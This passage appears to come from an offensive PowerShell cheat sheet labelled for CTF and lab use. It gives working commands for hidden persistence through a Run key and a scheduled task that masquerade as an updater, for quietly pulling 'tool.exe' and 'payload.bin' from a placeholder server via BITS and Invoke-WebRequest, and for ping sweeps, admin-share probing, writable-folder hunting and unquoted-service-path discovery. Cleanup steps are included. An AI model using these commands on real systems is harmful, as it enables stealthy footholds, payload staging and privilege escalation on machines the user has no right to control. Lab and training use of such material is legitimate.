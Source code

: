 ### VIII. ♻️ Persistence (CTF/Lab Techniques)

**Run Key (current user)**

```powershell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "Updatr" -Value "C:\Users\Public\updatr.ps1" -PropertyType String
```

**Scheduled Task (on logon)**

```powershell
$act = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoP -W Hidden -F C:\Users\Public\p.ps1"
$trg = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $act -Trigger $trg -User $env:USERNAME
```

> 📎 Remove after the exercise:

```powershell
Unregister-ScheduledTask -TaskName "Updater" -Confirm:$false
Remove-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updatr"
```

***

### IX. 🚚 File Transfer Arsenal (No External Tools)

```powershell
# Start a quick HTTP file server (PowerShell 5+, simple)
Set-Location C:\Share
python -m http.server 8000  # if Python exists

# Pull a file over HTTP(S)
Invoke-WebRequest -Uri "https://server/tool.exe" -OutFile "$env:TEMP\tool.exe"

# SMB copy (requires share perms)
Copy-Item \\fileserver\share\agent.ps1 C:\Temp\agent.ps1

# BITS (quiet, resumable)
Start-BitsTransfer -Source "https://server/payload.bin" -Destination "C:\Temp\payload.bin"
```

***

### X. 🧪 Useful One-Liners & Mini-Functions

```powershell
# ping sweep (small /24 lab)
1..254 | % { "$_`t" + (Test-Connection -Count 1 -Quiet 10.10.10.$_) } | ? {$_ -match "True"}

# list admin shares reachable
$hosts = @("WS01","WS02","FS01")
$hosts | % { if(Test-Path "\\$_\C$"){ "$_ : C$ ok" } }

# find writable folders (current token)
gci C:\ -Recurse -Directory -ErrorAction SilentlyContinue |
  % { try { $acl = Get-Acl $_.FullName; if(($acl.Access | ? {$_.IdentityReference -match $env:USERNAME -and $_.FileSystemRights -match "Write"}) ){ $_.FullName } } catch {} }

# quick service audit: auto-start & unquoted paths
Get-CimInstance Win32_Service | ? {$_.StartMode -eq "Auto"} |
 select Name,State,StartName,PathName |
 ? {$_.PathName -and $_.PathName -match ' '}   # candidates for unquoted path issues (lab)
```
